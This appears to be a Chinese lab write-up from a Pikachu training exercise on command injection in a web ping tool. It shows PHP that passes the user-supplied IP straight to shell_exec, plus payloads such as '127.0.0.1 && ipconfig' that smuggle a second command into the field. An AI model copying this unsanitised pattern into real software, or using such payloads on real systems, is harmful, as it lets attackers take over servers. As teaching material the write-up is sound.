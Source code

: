 比如我们常见的路由器、防火墙、入侵检测等设备的 web 管理界面上

一般会给用户提供一个 ping 操作的 web 界面,用户从 web 界面输入目标 IP,提交后,后台会对该 IP 地址进行一次 ping 测试,并返回测试结果. 而,如果,设计者在完成该功能时,没有做严格的安全控制,则可能会导致攻击者通过该接口提交"意想不到"的命令,从而让后台进行执行,从而控制整个后台服务器

### exec "ping"

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分,然后校验数字以范围,第一位和第四位1-255,中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来,没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }
}
```

**漏洞利用**

可以拼接想要执行的命令
- payload: `127.0.0.1 && ipconfig`
- payload: `127.0.0.1 & ipconfig`
- payload: `127.0.0.1 | ipconfig`

![image](../../../../assets/img/安全/实验/Misc/pikachu/24.png)
